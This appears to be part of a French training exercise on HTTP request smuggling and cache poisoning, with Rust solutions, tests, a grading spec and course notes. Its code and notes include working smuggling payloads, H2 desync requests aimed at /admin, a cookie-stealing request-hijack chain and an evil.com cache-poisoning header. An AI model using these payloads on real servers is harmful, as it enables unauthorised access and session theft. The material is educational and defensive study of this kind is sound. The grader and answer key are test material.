    // Smuggling + Cache Poisoning
    if !matches!(smuggling_type, SmugglingType::NotVulnerable) && has_cache && !unkeyed_headers.is_empty() {
        chains.push(json!({
            "name": "Smuggling + Cache Poison",
            "steps": [
                format!("Use {} to smuggle request with malicious headers", smuggling_type.as_str()),
                format!("Inject unkeyed header: {}", unkeyed_headers.first().unwrap_or(&"X-Forwarded-Host".to_string())),
                "Smuggled request targets cacheable endpoint",
                "Backend generates response with malicious content",
                "Cache stores poisoned response for all users"
            ],
            "severity": "CRITICAL",
            "impact": "Persistent XSS affecting all cached page visitors"
        }));
    }

    // Smuggling for access control bypass
    if !matches!(smuggling_type, SmugglingType::NotVulnerable) {
        chains.push(json!({
            "name": "Smuggling + Access Control Bypass",
            "steps": [
                "Identify protected endpoint (e.g., /admin)",
                format!("Craft {} smuggling payload", smuggling_type.as_str()),
                "Smuggle request with internal IP in X-Forwarded-For",
                "Backend processes smuggled request as internal",
                "Access control bypassed"
            ],
            "severity": "HIGH",
            "impact": "Unauthorized access to protected resources"
        }));
    }

    // Request hijacking for credential theft
    if !matches!(smuggling_type, SmugglingType::NotVulnerable) {
        chains.push(json!({
            "name": "Request Hijacking + Credential Theft",
            "steps": [
                format!("Send {} smuggling payload", smuggling_type.as_str()),
                "Smuggled prefix: 'GET /log?data='",
                "Next user's request appended to attacker's",
                "User's cookies/headers captured in log endpoint",
                "Attacker retrieves stolen credentials"
            ],
            "severity": "CRITICAL",
            "impact": "Session hijacking of other users"
        }));
    }

    chains
}

fn generate_mitigations(smuggling_type: &SmugglingType, unkeyed_headers: &[String]) -> Vec<String> {
    let mut mitigations = Vec::new();

    // Always include general mitigations
    mitigations.push("Use HTTP/2 end-to-end to prevent protocol-level smuggling".to_string());
    mitigations.push("Normalize request parsing across all components".to_string());
    mitigations.push("Reject ambiguous requests with both Content-Length and Transfer-Encoding".to_string());

    // Type-specific mitigations
    match smuggling_type {
        SmugglingType::ClTe => {
            mitigations.push("Configure frontend to strip Transfer-Encoding from requests".to_string());
            mitigations.push("Ensure backend rejects requests with both CL and TE headers".to_string());
        }
        SmugglingType::TeCl => {
            mitigations.push("Configure frontend to normalize chunked encoding".to_string());
            mitigations.push("Reject requests where Content-Length doesn't match body size".to_string());
        }
        SmugglingType::TeTe => {
            mitigations.push("Reject any obfuscated Transfer-Encoding variants".to_string());
            mitigations.push("Whitelist only 'Transfer-Encoding: chunked' exactly".to_string());
        }
        SmugglingType::NotVulnerable => {}
    }

    // Cache-specific mitigations
    if !unkeyed_headers.is_empty() {
        mitigations.push("Include all security-relevant headers in cache key".to_string());
        mitigations.push(format!(
            "Add to cache key: {}",
            unkeyed_headers.join(", ")
        ));
        mitigations.push("Use Vary header to prevent header-based poisoning".to_string());
    }

    // Additional hardening
    mitigations.push("Implement request timeout to detect smuggling probes".to_string());
    mitigations.push("Monitor for unusual Content-Length/Transfer-Encoding combinations".to_string());
    mitigations.push("Deploy WAF rules to detect smuggling patterns".to_string());

    mitigations
}

#[cfg(test)]
mod tests {
    use super::*;

    #[test]
    fn test_cl_te_detection() {
        let input = r#"{
            "architecture": {"frontend": "Nginx", "backend": "Apache", "cache": null},
            "test_results": {
                "cl_te_test": {"response_delay": true, "timeout_seconds": 5},
                "te_cl_test": {"response_delay": false}
            },
            "unkeyed_headers": [],
            "target_endpoints": []
        }"#;

        let result = http_smuggling_cache_attacks(input);
        assert!(result.contains("CL.TE"));
    }

    #[test]
    fn test_no_vulnerability() {
        let input = r#"{
            "architecture": {"frontend": "Nginx", "backend": "Nginx", "cache": null},
            "test_results": {
                "cl_te_test": {"response_delay": false},
                "te_cl_test": {"response_delay": false}
            },
            "unkeyed_headers": [],
            "target_endpoints": []
        }"#;

        let result = http_smuggling_cache_attacks(input);
        assert!(result.contains("NOT_VULNERABLE") || result.contains("NONE"));
    }
}
```

### 4.4 Solutions alternatives acceptées

```rust
// Alternative 1: Approche avec state machine pour parsing HTTP
pub fn http_smuggling_cache_attacks_state_machine(input_json: &str) -> String {
    // Utilise un automate pour parser les headers HTTP
    // et détecter les incohérences
    // ...
}

// Alternative 2: Approche avec pattern matching explicite
pub fn http_smuggling_cache_attacks_patterns(input_json: &str) -> String {
    // Utilise des patterns prédéfinis pour chaque type de smuggling
    // Plus facile à maintenir et étendre
    // ...
}
```

### 4.5 Solutions refusées (avec explications)

```rust
// ❌ REFUSÉ: Ne génère pas de payloads exploitables
pub fn smuggling_bad_no_payloads(input_json: &str) -> String {
    // Détecte le type mais ne génère aucun payload
    // Inutile pour comprendre l'exploitation
    json!({"type": "CL.TE"}).to_string()
}
// Pourquoi: L'exercice demande des payloads fonctionnels pour l'apprentissage

// ❌ REFUSÉ: Hardcode les résultats
pub fn smuggling_bad_hardcoded(input_json: &str) -> String {
    // Toujours retourne CL.TE sans analyser l'input
    json!({"smuggling_analysis": {"vulnerability_type": "CL.TE"}}).to_string()
}
// Pourquoi: Ne respecte pas les test_results fournis

// ❌ REFUSÉ: Ignore les mitigations
pub fn smuggling_bad_no_mitigations(input_json: &str) -> String {
    // Détecte et exploite mais ne propose aucune mitigation
    // ...
}
// Pourquoi: L'aspect défensif est crucial pour la formation
```

### 4.6 Solution bonus de référence

```rust
pub fn http2_smuggling_advanced(input_json: &str) -> String {
    #[derive(Deserialize)]
    struct H2Input {
        http2_enabled: bool,
        downgrade_behavior: String,
        h2_cl_test: Option<H2ClTest>,
        h2_te_test: Option<H2TeTest>,
        frontend_controls: Option<FrontendControls>,
    }

    #[derive(Deserialize)]
    struct H2ClTest {
        injected_cl: String,
        response_truncated: bool,
    }

    #[derive(Deserialize)]
    struct H2TeTest {
        chunked_accepted: bool,
    }

    #[derive(Deserialize)]
    struct FrontendControls {
        blocked_paths: Vec<String>,
        blocked_methods: Vec<String>,
    }

    let input: H2Input = match serde_json::from_str(input_json) {
        Ok(i) => i,
        Err(e) => return json!({"error": e.to_string()}).to_string(),
    };

    let mut h2_vulnerabilities = json!({});
    let mut request_tunneling = json!({});
    let mut browser_powered = json!({});

    // H2.CL Detection
    if let Some(h2_cl) = &input.h2_cl_test {
        if h2_cl.response_truncated {
            h2_vulnerabilities["h2_cl_desync"] = json!({
                "vulnerable": true,
                "payload": ":method: POST\n:path: /\ncontent-length: 0\n\nGET /admin HTTP/1.1\r\nHost: internal\r\n\r\n",
                "bypass": "Frontend path restriction bypassed via H2 → H1 desync",
                "technique": "Inject Content-Length in HTTP/2 pseudo-headers"
            });
        }
    }

    // H2.TE Detection
    if let Some(h2_te) = &input.h2_te_test {
        if h2_te.chunked_accepted && input.downgrade_behavior == "h2_to_h1" {
            h2_vulnerabilities["h2_te_desync"] = json!({
                "vulnerable": true,
                "payload": ":method: POST\n:path: /\ntransfer-encoding: chunked\n\n0\r\n\r\nGET /internal HTTP/1.1\r\n\r\n",
                "bypass": "Chunked encoding preserved in downgrade"
            });
        }
    }

    // Request Tunneling Analysis
    if let Some(controls) = &input.frontend_controls {
        let mut capabilities = Vec::new();

        if !controls.blocked_paths.is_empty() {
            capabilities.push("Path restriction bypass");
        }
        if !controls.blocked_methods.is_empty() {
            capabilities.push("Method restriction bypass");
        }
        capabilities.push("Header injection");

        request_tunneling = json!({
            "technique": "Encapsulated HTTP/1.1 in HTTP/2 body",
            "capabilities": capabilities,
            "example": {
                "blocked_path": controls.blocked_paths.first(),
                "bypass_payload": format!(
                    "POST / HTTP/2\nBody: GET {} HTTP/1.1\\r\\n\\r\\n",
                    controls.blocked_paths.first().unwrap_or(&"/admin".to_string())
                )
            }
        });
    }

    // Browser-Powered Smuggling
    if input.http2_enabled {
        browser_powered = json!({
            "fetch_payload": "fetch('/', {method: 'POST', body: smuggled_http1_request, duplex: 'half'})",
            "same_origin_exploit": true,
            "technique": "Browser initiates HTTP/2 request that causes H1 desync",
            "prerequisites": ["Victim visits attacker page", "Same-origin or CORS misconfiguration"],
            "impact": "Client-side request smuggling without server control"
        });
    }

    json!({
        "h2_vulnerabilities": h2_vulnerabilities,
        "request_tunneling": request_tunneling,
        "browser_powered": browser_powered,
        "recommendations": [
            "Disable HTTP/1.1 on backend when using HTTP/2 frontend",
            "Validate Content-Length consistency in HTTP/2",
            "Strip Transfer-Encoding from HTTP/2 → HTTP/1.1 downgrades",
            "Implement request timeout at all layers"
        ]
    }).to_string()
}
```

### 4.7 Solutions alternatives bonus

```rust
// Alternative: Approche avec graphe d'attaques
pub fn http2_smuggling_attack_graph(input_json: &str) -> String {
    // Construit un graphe de toutes les possibilités d'attaque
    // et trouve le chemin optimal
    // ...
}
```

### 4.8 Solutions refusées bonus

```rust
// ❌ REFUSÉ: Ne gère pas HTTP/2 spécifiquement
pub fn http2_bad_no_h2(input_json: &str) -> String {
    // Réutilise simplement la logique HTTP/1.1
    http_smuggling_cache_attacks(input_json)
}
// Pourquoi: Le bonus exige spécifiquement les attaques H2
```

### 4.9 spec.json

```json
{
  "name": "http_smuggling_cache_attacks",
  "language": "rust",
  "version": "edition2024",
  "type": "code",
  "tier": 1,
  "tier_info": "Concept isolé - HTTP Smuggling & Cache Poisoning",
  "tags": ["security", "http", "smuggling", "cache", "web", "phase3"],
  "passing_score": 70,

  "function": {
    "name": "http_smuggling_cache_attacks",
    "prototype": "pub fn http_smuggling_cache_attacks(input_json: &str) -> String",
    "return_type": "String",
    "parameters": [
      {"name": "input_json", "type": "&str"}
    ]
  },

  "driver": {
    "reference": "pub fn ref_http_smuggling_cache_attacks(input_json: &str) -> String { let input: serde_json::Value = serde_json::from_str(input_json).unwrap_or_default(); let cl_te = input[\"test_results\"][\"cl_te_test\"][\"response_delay\"].as_bool().unwrap_or(false); let te_cl = input[\"test_results\"][\"te_cl_test\"][\"response_delay\"].as_bool().unwrap_or(false); let vuln_type = if cl_te { \"CL.TE\" } else if te_cl { \"TE.CL\" } else { \"NOT_VULNERABLE\" }; serde_json::json!({\"smuggling_analysis\": {\"vulnerability_type\": vuln_type, \"confidence\": if cl_te || te_cl { \"HIGH\" } else { \"NONE\" }}, \"exploit_payloads\": [], \"cache_poisoning\": {\"vulnerable_headers\": input[\"unkeyed_headers\"]}, \"host_header_attacks\": [], \"chained_attacks\": [], \"mitigations\": [\"Use HTTP/2 end-to-end\"]}).to_string() }",

    "edge_cases": [
      {
        "name": "cl_te_detected",
        "args": ["{\"architecture\":{\"frontend\":\"Nginx\",\"backend\":\"Apache\",\"cache\":null},\"test_results\":{\"cl_te_test\":{\"response_delay\":true,\"timeout_seconds\":5},\"te_cl_test\":{\"response_delay\":false}},\"unkeyed_headers\":[],\"target_endpoints\":[\"/admin\"]}"],
        "expected_contains": "CL.TE",
        "is_trap": false
      },
      {
        "name": "te_cl_detected",
        "args": ["{\"architecture\":{\"frontend\":\"HAProxy\",\"backend\":\"NodeJS\",\"cache\":null},\"test_results\":{\"cl_te_test\":{\"response_delay\":false},\"te_cl_test\":{\"response_delay\":true,\"timeout_seconds\":10}},\"unkeyed_headers\":[],\"target_endpoints\":[]}"],
        "expected_contains": "TE.CL",
        "is_trap": false
      },
      {
        "name": "no_smuggling",
        "args": ["{\"architecture\":{\"frontend\":\"Nginx\",\"backend\":\"Nginx\",\"cache\":null},\"test_results\":{\"cl_te_test\":{\"response_delay\":false},\"te_cl_test\":{\"response_delay\":false}},\"unkeyed_headers\":[],\"target_endpoints\":[]}"],
        "expected_contains": ["NOT_VULNERABLE", "NONE"],
        "is_trap": true,
        "trap_explanation": "Pas de délai = pas de vulnérabilité"
      },
      {
        "name": "cache_poisoning_unkeyed",
        "args": ["{\"architecture\":{\"frontend\":\"CloudFront\",\"backend\":\"Origin\",\"cache\":\"CloudFront\"},\"test_results\":{\"cl_te_test\":{\"response_delay\":false},\"te_cl_test\":{\"response_delay\":false}},\"unkeyed_headers\":[\"X-Forwarded-Host\"],\"target_endpoints\":[\"/home\"]}"],
        "expected_contains": "X-Forwarded-Host",
        "is_trap": false
      },
      {
        "name": "empty_architecture",
        "args": ["{\"architecture\":{},\"test_results\":{},\"unkeyed_headers\":[],\"target_endpoints\":[]}"],
        "expected_contains": ["error", "NONE", "NOT_VULNERABLE"],
        "is_trap": true,
        "trap_explanation": "Input invalide doit être géré gracieusement"
      },
      {
        "name": "invalid_json",
        "args": ["not valid json"],
        "expected_contains": "error",
        "is_trap": true,
        "trap_explanation": "JSON invalide doit retourner une erreur"
      }
    ],

    "fuzzing": {
      "enabled": true,
      "iterations": 500,
      "generators": [
        {
          "type": "object",
          "param_index": 0,
          "params": {
            "schema": {
              "architecture": {"type": "object"},
              "test_results": {"type": "object"},
              "unkeyed_headers": {"type": "array", "items": "string"},
              "target_endpoints": {"type": "array", "items": "string"}
            }
          }
        }
      ]
    }
  },

  "norm": {
    "allowed_functions": ["serde_json::*", "std::collections::*", "regex::*"],
    "forbidden_functions": ["reqwest::*", "hyper::*", "std::net::*"],
    "check_security": true,
    "check_memory": true,
    "blocking": true
  },

  "security_checks": {
    "cwe_mapping": ["CWE-444", "CWE-525", "CWE-352"],
    "owasp_category": "A05:2021-Security Misconfiguration"
  }
}
```

### 4.10 Solutions Mutantes

```rust
// Mutant A (Boundary): Confusion entre CL.TE et TE.CL
pub fn mutant_a_boundary(input_json: &str) -> String {
    let input: Value = serde_json::from_str(input_json).unwrap_or_default();

    // BUG: Inverse la détection CL.TE et TE.CL
    let cl_te = input["test_results"]["te_cl_test"]["response_delay"]  // ERREUR: mauvais test
        .as_bool().unwrap_or(false);
    let te_cl = input["test_results"]["cl_te_test"]["response_delay"]  // ERREUR: inversé
        .as_bool().unwrap_or(false);

    let vuln_type = if cl_te { "CL.TE" } else if te_cl { "TE.CL" } else { "NOT_VULNERABLE" };

    json!({"smuggling_analysis": {"vulnerability_type": vuln_type}}).to_string()
}
// Pourquoi c'est faux: Confond les deux types de smuggling
// Ce qui était pensé: "CL.TE" et "TE.CL" ont la même logique

// Mutant B (Safety): Ne valide pas l'input JSON
pub fn mutant_b_safety(input_json: &str) -> String {
    // BUG: Panic sur JSON invalide au lieu de gérer l'erreur
    let input: Value = serde_json::from_str(input_json).unwrap();  // PANIC!

    json!({"smuggling_analysis": {"vulnerability_type": "CL.TE"}}).to_string()
}
// Pourquoi c'est faux: Crash sur input invalide
// Ce qui était pensé: L'input sera toujours du JSON valide

// Mutant C (Resource): Génère des payloads mal formés
pub fn mutant_c_resource(input_json: &str) -> String {
    // BUG: Payload sans \r\n corrects
    let payload = "POST / HTTP/1.1\nHost: target.com\nContent-Length: 10\nTransfer-Encoding: chunked\n\n0\n\n";

    json!({
        "smuggling_analysis": {"vulnerability_type": "CL.TE"},
        "exploit_payloads": [{"payload": payload}]  // ERREUR: \n au lieu de \r\n
    }).to_string()
}
// Pourquoi c'est faux: HTTP requiert CRLF (\r\n), pas juste LF (\n)
// Ce qui était pensé: Les sauts de ligne sont interchangeables

// Mutant D (Logic): Ignore les unkeyed headers pour cache poisoning
pub fn mutant_d_logic(input_json: &str) -> String {
    let input: Value = serde_json::from_str(input_json).unwrap_or_default();

    // BUG: Retourne toujours "pas de cache poisoning" même avec unkeyed headers
    json!({
        "smuggling_analysis": {"vulnerability_type": "NOT_VULNERABLE"},
        "cache_poisoning": {
            "vulnerable_headers": [],  // ERREUR: Ignore input.unkeyed_headers
            "impact": "No cache poisoning possible"
        }
    }).to_string()
}
// Pourquoi c'est faux: Les unkeyed headers sont cruciaux pour cache poisoning
// Ce qui était pensé: Cache poisoning nécessite obligatoirement du smuggling

// Mutant E (Return): Mauvaise structure de retour
pub fn mutant_e_return(input_json: &str) -> String {
    // BUG: Retourne une structure incomplète
    json!({
        "type": "CL.TE"  // ERREUR: Devrait être smuggling_analysis.vulnerability_type
    }).to_string()
}
// Pourquoi c'est faux: La structure de sortie ne correspond pas au format attendu
// Ce qui était pensé: Seul le type de smuggling est important

// Mutant F (Edge Case): Ne détecte pas TE.TE avec obfuscation
pub fn mutant_f_edge_case(input_json: &str) -> String {
    let input: Value = serde_json::from_str(input_json).unwrap_or_default();

    // BUG: Ignore complètement te_te_test
    let cl_te = input["test_results"]["cl_te_test"]["response_delay"]
        .as_bool().unwrap_or(false);
    let te_cl = input["test_results"]["te_cl_test"]["response_delay"]
        .as_bool().unwrap_or(false);

    // ERREUR: Pas de vérification de te_te_test.obfuscation_variants
    let vuln_type = if cl_te { "CL.TE" } else if te_cl { "TE.CL" } else { "NOT_VULNERABLE" };

    json!({"smuggling_analysis": {"vulnerability_type": vuln_type}}).to_string()
}
// Pourquoi c'est faux: TE.TE est une variante valide mais non détectée
// Ce qui était pensé: Seuls CL.TE et TE.CL existent
```

---

## 🧠 SECTION 5 : COMPRENDRE

### 5.1 Ce que cet exercice enseigne

| Concept | Description |
|---------|-------------|
| **HTTP Request Smuggling** | Exploitation des différences de parsing HTTP |
| **CL.TE vs TE.CL** | Deux variantes principales selon la priorité des headers |
| **Cache Poisoning** | Injection de contenu malveillant dans le cache |
| **Unkeyed Headers** | Headers non inclus dans la clé de cache |
| **Attaques chaînées** | Combinaison de plusieurs vulnérabilités |
| **Architecture Web** | Comprendre les proxies et caches |

### 5.2 LDA — Traduction en français

```
FONCTION http_smuggling_cache_attacks QUI RETOURNE UNE CHAÎNE ET PREND EN PARAMÈTRE input_json QUI EST UNE RÉFÉRENCE VERS UNE CHAÎNE
DÉBUT FONCTION
    DÉCLARER input COMME RÉSULTAT DU PARSING JSON DE input_json

    SI input EST UNE ERREUR ALORS
        RETOURNER UN JSON D'ERREUR
    FIN SI

    DÉCLARER smuggling_type COMME RÉSULTAT DE detect_smuggling_type(input.test_results)

    SI input.test_results.cl_te_test.response_delay EST VRAI ALORS
        AFFECTER "CL.TE" À smuggling_type
        AFFECTER "Timing-based detection" À detection_method
    SINON SI input.test_results.te_cl_test.response_delay EST VRAI ALORS
        AFFECTER "TE.CL" À smuggling_type
    SINON SI input.test_results.te_te_test A DES VARIANTS AVEC response_diff VRAI ALORS
        AFFECTER "TE.TE" À smuggling_type
    SINON
        AFFECTER "NOT_VULNERABLE" À smuggling_type
    FIN SI

    DÉCLARER exploit_payloads COMME RÉSULTAT DE generate_exploit_payloads(smuggling_type, input.target_endpoints)
    DÉCLARER cache_poisoning COMME RÉSULTAT DE analyze_cache_poisoning(input.unkeyed_headers)
    DÉCLARER host_attacks COMME RÉSULTAT DE analyze_host_header(input)
    DÉCLARER chained COMME RÉSULTAT DE generate_chained_attacks(smuggling_type, input)
    DÉCLARER mitigations COMME RÉSULTAT DE generate_mitigations(smuggling_type)

    RETOURNER LE JSON CONTENANT TOUTES LES ANALYSES
FIN FONCTION
```

### 5.2.2 Logic Flow

```
ALGORITHME : HTTP Smuggling Detection & Exploitation
---
1. PARSER l'input JSON avec gestion d'erreur

2. DÉTECTION du type de smuggling :
   a. SI cl_te_test.response_delay == true :
      → Type = CL.TE (Frontend=CL, Backend=TE)

   b. SINON SI te_cl_test.response_delay == true :
      → Type = TE.CL (Frontend=TE, Backend=CL)

   c. SINON SI te_te_test a des variants avec diff :
      → Type = TE.TE (Obfuscation)

   d. SINON :
      → Type = NOT_VULNERABLE

3. GÉNÉRATION des payloads selon le type :
   - CL.TE : Construire payload avec CL > body réel
   - TE.CL : Construire payload avec chunk malformé
   - TE.TE : Utiliser les variants d'obfuscation

4. ANALYSE du cache poisoning :
   - Identifier les unkeyed headers
   - Générer les payloads de poisoning

5. ANALYSE des attaques Host Header

6. CHAÎNAGE des attaques si multiple vulnérabilités

7. GÉNÉRATION des mitigations

8. RETOURNER le rapport complet en JSON
```

### 5.2.3 Représentation Algorithmique (Logique de Garde)

```
FONCTION : detect_smuggling_type(test_results)
---
INIT result = NOT_VULNERABLE

1. VÉRIFIER cl_te_test.response_delay :
   |
   |-- SI response_delay == true :
   |     RETOURNER CL.TE avec HIGH confidence
   |
   |-- SINON : continuer

2. VÉRIFIER te_cl_test.response_delay :
   |
   |-- SI response_delay == true :
   |     RETOURNER TE.CL avec HIGH confidence
   |
   |-- SINON : continuer

3. VÉRIFIER te_te_test.obfuscation_variants :
   |
   |-- POUR CHAQUE variant :
   |     SI variant.response_diff == true :
   |       RETOURNER TE.TE avec MEDIUM confidence
   |
   |-- SINON : continuer

4. RETOURNER NOT_VULNERABLE avec NONE confidence
```

### Diagramme Mermaid : Flux de Détection



### 5.3 Visualisation ASCII

```
                    HTTP REQUEST SMUGGLING - CL.TE
═══════════════════════════════════════════════════════════════════════

     ATTACKER                FRONTEND (Nginx)              BACKEND (Apache)
     ────────                ─────────────────             ────────────────
         │                         │                             │
         │  POST / HTTP/1.1        │                             │
         │  Host: target.com       │                             │
         │  Content-Length: 44     │  ◄─── Nginx lit CL=44       │
         │  Transfer-Encoding:     │                             │
         │    chunked              │                             │
         │                         │                             │
         │  0                      │                             │
         │                         │                             │
         │  GET /admin HTTP/1.1    │  ◄─── Ces 30 octets sont    │
         │  Host: target.com       │       "le body" pour Nginx  │
         │                         │                             │
         ├─────────────────────────▶                             │
         │                         │                             │
         │                         │  Nginx forward tout         │
         │                         ├─────────────────────────────▶
         │                         │                             │
         │                         │         Apache lit TE=chunked
         │                         │         "0" = fin du chunk
         │                         │         GET /admin reste dans
         │                         │         le buffer...
         │                         │                             │
         │                         │                             │
   VICTIME                         │                             │
     │  GET /home HTTP/1.1         │                             │
     ├─────────────────────────────▶                             │
     │                         │   │                             │
     │                         │   ├─────────────────────────────▶
     │                         │   │                             │
     │                         │   │   Apache préfixe la requête
     │                         │   │   de la victime avec
     │                         │   │   GET /admin !
     │                         │   │                             │
     │  ◄───────────────────────────────────────────────────────┤
     │  Réponse de /admin                                        │
     │  (accès non autorisé!)                                    │


                         CACHE POISONING FLOW
═══════════════════════════════════════════════════════════════════════

    ATTACKER              CDN/CACHE               ORIGIN SERVER
       │                     │                         │
       │  GET /home          │                         │
       │  X-Forwarded-Host:  │                         │
       │    evil.com         │                         │
       ├─────────────────────▶                         │
       │                     │                         │
       │                     │  Cache Key: /home       │
       │                     │  (X-Forwarded-Host      │
       │                     │   NOT in cache key!)    │
       │                     │                         │
       │                     ├─────────────────────────▶
       │                     │                         │
       │                     │  Origin uses            │
       │                     │  X-Forwarded-Host       │
       │                     │  in response:           │
       │                     │                         │
       │                     ◀──────────────────────────
       │                     │  <a href="//evil.com">  │
       │                     │                         │
       │  ◀───────────────────                         │
       │                     │                         │
       │                     │  ┌─────────────────┐    │
       │                     │  │ CACHE STORES:   │    │
       │                     │  │ Key: /home      │    │
       │                     │  │ Value: page     │    │
       │                     │  │ with evil.com   │    │
       │                     │  │ links!          │    │
       │                     │  └─────────────────┘    │
       │                     │                         │
  VICTIM                     │                         │
       │  GET /home          │                         │
       ├─────────────────────▶                         │
       │                     │                         │
       │                     │  Cache HIT!             │
       │  ◀───────────────────                         │
       │  Poisoned response                            │
       │  with evil.com!                               │
```

### 5.4 Les pièges en détail

| Piège | Description | Comment l'éviter |
|-------|-------------|------------------|
| **Confondre CL.TE et TE.CL** | Les deux types ont des logiques inverses | Bien comprendre quel composant utilise quel header |
| **Oublier CRLF** | HTTP utilise `\r\n`, pas `\n` | Toujours utiliser `\r\n` dans les payloads |
| **Ignorer TE.TE** | Variante avec obfuscation souvent oubliée | Tester les variants comme `Transfer-Encoding: xchunked` |
| **Cache key confusion** | Mal comprendre ce qui est keyed/unkeyed | Analyser la configuration du cache |
| **Timing inconsistant** | Les délais peuvent varier | Effectuer plusieurs tests et moyenner |

### 5.5 Cours Complet

#### 5.5.1 Les Fondamentaux du HTTP

Le protocole HTTP/1.1 définit deux méthodes pour indiquer la taille du body :

**Content-Length :**
```http
POST /login HTTP/1.1
Host: example.com
Content-Length: 27

username=admin&password=xyz
```

**Transfer-Encoding: chunked :**
```http
POST /upload HTTP/1.1
Host: example.com
Transfer-Encoding: chunked

1b
username=admin&password=
0

```

#### 5.5.2 La RFC et la Réalité

La RFC 7230 Section 3.3.3 stipule clairement :

> "If a message is received with both a Transfer-Encoding and a Content-Length header field, the Transfer-Encoding overrides the Content-Length."

**En théorie** : Tous les serveurs devraient donner priorité à `Transfer-Encoding`.

**En pratique** :
- Apache : Suit la RFC (priorité TE)
- Nginx : Peut être configuré différemment
- HAProxy : Comportement configurable
- AWS ALB : A eu des bugs historiques

#### 5.5.3 Les Types de Smuggling

**CL.TE (Content-Length → Transfer-Encoding) :**
```
Frontend : Lit Content-Length (ex: 44 bytes)
Backend  : Lit Transfer-Encoding (chunk "0" = fin)
Résultat : Le "surplus" reste dans le buffer du backend
```

**TE.CL (Transfer-Encoding → Content-Length) :**
```
Frontend : Lit Transfer-Encoding (attend la fin des chunks)
Backend  : Lit Content-Length (ex: 4 bytes)
Résultat : Le backend ignore le reste, qui "smuggle" vers la prochaine requête
```

**TE.TE (Transfer-Encoding → Transfer-Encoding obfusqué) :**
```
Frontend : Reconnaît "Transfer-Encoding: chunked"
Backend  : Ne reconnaît PAS "Transfer-Encoding: xchunked"
          → Utilise Content-Length comme fallback
```

#### 5.5.4 Détection par Timing

La méthode de détection la plus fiable utilise le timing :

**Test CL.TE :**
```http
POST / HTTP/1.1
Host: target.com
Content-Length: 6
Transfer-Encoding: chunked

0

X
```
- Si CL.TE : Le backend attend plus de données → DÉLAI
- Si TE.CL : Le backend répond immédiatement

**Test TE.CL :**
```http
POST / HTTP/1.1
Host: target.com
Content-Length: 4
Transfer-Encoding: chunked

12
XXXXXXXXXXXXXXXX
0

```
- Si TE.CL : Le backend lit seulement 4 bytes → DÉLAI (attend fin chunk)
- Si CL.TE : Le backend répond immédiatement

#### 5.5.5 Cache Poisoning

Le cache utilise une **cache key** pour indexer les réponses, typiquement :
```
Cache Key = Scheme + Host + Path + Query String
```

Les headers comme `X-Forwarded-Host` ne sont souvent PAS dans la clé mais SONT utilisés par l'application :

```
Attaquant envoie:
  GET /home
  X-Forwarded-Host: evil.com

Application génère:
  <link href="//evil.com/style.css">

Cache stocke avec clé "/home":
  Response avec evil.com

Tous les utilisateurs reçoivent:
  La version empoisonnée!
```

### 5.6 Normes avec explications pédagogiques

```
┌─────────────────────────────────────────────────────────────────┐
│ ❌ HORS NORME (payload incorrect)                               │
├─────────────────────────────────────────────────────────────────┤
│ POST / HTTP/1.1\nHost: target.com\n                             │
├─────────────────────────────────────────────────────────────────┤
│ ✅ CONFORME                                                     │
├─────────────────────────────────────────────────────────────────┤
│ POST / HTTP/1.1\r\nHost: target.com\r\n                         │
├─────────────────────────────────────────────────────────────────┤
│ 📖 POURQUOI ?                                                   │
│                                                                 │
│ • HTTP/1.1 RFC 7230 exige CRLF (\r\n) comme délimiteur         │
│ • Certains serveurs acceptent \n mais pas tous                  │
│ • Les payloads de smuggling doivent être parfaitement formés    │
│ • Une erreur de format peut faire échouer l'attaque             │
└─────────────────────────────────────────────────────────────────┘
```

### 5.7 Simulation avec trace d'exécution

**Scénario : Détection CL.TE avec Nginx → Apache**

```
┌───────┬─────────────────────────────────────────────┬──────────────────┬─────────────────────┐
│ Étape │ Action                                      │ Résultat         │ Explication         │
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   1   │ Parser JSON input                           │ Input valide     │ Architecture définie│
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   2   │ Vérifier cl_te_test.response_delay          │ true             │ Délai détecté       │
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   3   │ Déterminer smuggling_type                   │ CL.TE            │ Frontend=CL         │
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   4   │ Définir confidence                          │ HIGH             │ Timing fiable       │
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   5   │ Générer payload CL.TE                       │ POST+smuggle     │ Request hijacking   │
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   6   │ Analyser unkeyed_headers                    │ X-Forwarded-Host │ Cache poison viable │
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   7   │ Générer cache poisoning payload             │ XSS via header   │ Stored XSS          │
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   8   │ Créer chained attack                        │ Smuggle+Cache    │ Impact critique     │
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│   9   │ Générer mitigations                         │ 5 recommandations│ Défense en profondeur│
├───────┼─────────────────────────────────────────────┼──────────────────┼─────────────────────┤
│  10   │ Retourner JSON complet                      │ Rapport structuré│ Toutes analyses     │
└───────┴─────────────────────────────────────────────┴──────────────────┴─────────────────────┘
```

### 5.8 Mnémotechniques

#### 🌀 MEME : "Inception" — Rêves dans les Rêves


**"We need to go deeper!"** — Chaque niveau de l'architecture web (Frontend, Backend, Cache) interprète les requêtes différemment, comme les niveaux de rêves dans Inception.

```rust
// 🌀 CL.TE = Le rêve de Cobb (Content-Length)
//           vs le rêve d'Arthur (Transfer-Encoding)
if frontend_sees != backend_sees {
    // "The dream is collapsing!"
    vulnerability_detected();
}
```

#### 🎭 MEME : "Le Prestige" — Le Tour a 3 Parties

1. **The Pledge** (La Promesse) : Tu montres une requête normale
2. **The Turn** (Le Tour) : Tu caches une deuxième requête dedans
3. **The Prestige** (Le Prestige) : La victime reçoit ta requête cachée

```http
POST / HTTP/1.1           ← The Pledge
Content-Length: 44
Transfer-Encoding: chunked

0                         ← The Turn

GET /admin HTTP/1.1       ← The Prestige!
```

#### 🧪 MEME : "Breaking Bad" — La Pureté du Payload

Comme Walter White qui insiste sur 99.7% de pureté pour sa méthamphetamine, ton payload HTTP doit être **parfaitement formé** :

- `\r\n` au lieu de `\n` = la différence entre succès et échec
- Un octet de trop ou de moins = payload cassé
- "I am the one who smuggles!"

### 5.9 Applications pratiques

| Domaine | Application |
|---------|-------------|
| **Bug Bounty** | Target privilégiée pour bounties élevés ($10k-$50k) |
| **Pentest Web** | Test systématique des architectures reverse proxy |
